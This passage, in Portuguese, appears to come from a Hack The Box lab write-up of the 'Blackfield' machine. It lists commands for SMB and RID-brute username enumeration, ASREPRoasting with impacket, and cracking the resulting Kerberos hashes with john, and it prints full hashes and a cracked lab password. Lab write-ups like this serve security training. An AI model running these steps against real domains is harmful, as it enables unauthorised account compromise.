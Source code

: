 ​	Podemos notar que os diretórios parecem ser nomes de usuários, o que pode ser reforcado pelo nome do diretório "profiles$", com isso, podemos criar uma lista de possíveis usuários da máquina. Para isso podemos executar o seguinte comando:

```bash
smbclient //10.129.229.17/'profiles$' -U "guest%" -c 'ls' | awk '{print $1}' > profiles.txt
```

​	Com a lista em mãos, podemos ver se algum usuário está vulnerável a [ASREPRoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast) utilizando o **impacket-GetNPUsers**.

```bash
impacket-GetNPUsers blackfield.local/ -no-pass -usersfile profiles.txt -request -outputfile ticket.txt
```

​	Após executar o comando, podemos conseguir o ticket do usuário **support**. 

​	**OBS:** Como eu já havia quebrado o hash, tenho que utilizar a opcao `--show` para visualizar a senha quebrada.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ cat ticket.txt      
$krb5asrep$23$support@BLACKFIELD.LOCAL:ce3250b54454406320fe2e9ed00dd828$758ea09fed89a5122fc5d31d4871c65ab5bd6af3dafb74e4978007e7ccfaaed5bc3afaa01b10605954114b7a57946a8b8bf935cb7295fa1e755cdeb4f66ea1da307ed2815b6b2932d154f72c9ab2d2fce791c63136295f196724a4862b1327adc18c59a589a7efa17135935489a3f3d164c851ce1d2f086850adbe95583dbf2c407e5f7c47efc0c1606a9e805d9ee2ee5a4b701ef46a78c417b76723911e109a9978362ce36bafa7d43ab58f205c1d30f03e2bd64bf0009c4d9c7953b7fede4fb3751526fba1f4456915a73a0ad6f4fdf694eecd05b714fc83ea5a2500869c13e407d25ce51ffb0be7e33ab8fa1b8a1923450250

┌──(kali㉿kali)-[~/…/HTB/machines/to-do/Blackfield]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt ticket.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
No password hashes left to crack (see FAQ)                                                                                                                                                                                       
┌──(kali㉿kali)-[~/…/HTB/machines/to-do/Blackfield]
└─$ john ticket.txt --show
$krb5asrep$23$support@BLACKFIELD.LOCAL:#00^BlackKnight

1 password hash cracked, 0 left
```

​	Outra maneira de criarmos a wordlist de usuário que possui o usuário **support** é utilizando o `--rid-brute` do **netexec**.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ netexec smb blackfield.local -u "guest" -p "" --rid-brute | grep -i SidTypeUser | awk -F '\' '{print $2}' | awk '{print $1}' > profiles2.txt

┌──(kali㉿kali)-[~/…/HTB/machines/to-do/Blackfield]
└─$ impacket-GetNPUsers blackfield.local/ -no-pass -usersfile profiles2.txt -request -outputfile ticket2.txt

┌──(kali㉿kali)-[~/…/HTB/machines/to-do/Blackfield]
└─$ cat ticket2.txt 
$krb5asrep$23$support@BLACKFIELD.LOCAL:d9809ef11c6066b273b8067a8f66f111$aeb1593a08547c5d335065a96384b6946c5deaeda42e1c641686dd44469a894f8b26f0046407d9b2b1f8a5bb56e5021b4e480c1e8fe988b8835b8db192306a80dfc71085107f8f6435f8e039c69b725cc60832d873700763dd9fed8f895791773602f5f5b9feb78a841663e144599af680fc084b4810e8347892e5848f4b3ba8503c570d17034e804ccdf543b6a07276adb4cabfb74f09efdb9fa697d2a462af1801f4a99e126563dfab996ccfbc8c88c19b58f8e491533ea3e65d162e39440e027701142f59ccbafa0a9c1bee740d06a54d6629e78e20c407f5f0ed48091398cd6bc64eafebe51c68a2889a327701a59e32ff86
```
